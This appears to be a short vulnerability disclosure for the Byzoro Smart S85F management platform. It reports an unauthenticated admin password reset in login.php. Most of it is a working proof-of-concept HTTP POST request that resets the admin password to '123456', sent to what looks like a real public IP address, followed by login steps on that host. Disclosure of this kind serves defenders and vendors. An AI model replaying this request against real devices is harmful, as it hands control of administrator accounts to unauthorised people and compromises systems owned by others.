



Byzro Networks Smart S85F management platform has a vulnerability in improper password reset

verision: Smart V31R02B10-01

Vendor:  https://www.byzoro.com/

route:/login.php

Description:

> The Beijing Baichuo Smart S85F Management Platform system under consideration contains a high vulnerability that allows unauthorized users to reset the password of the admin account. This vulnerability arises due to an insecure POST request method in the system's password reset functionality.

severity:  high 




POC

```
POST /login.php HTTP/1.1
Host: 60.29.117.204:8443
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

mode=findpwd&find_username=admin&txt_newpwd=123456
```



Acccess:

login -> https://60.29.117.204:8443/default.php  using the account 'admin' with the new password set as '123456'



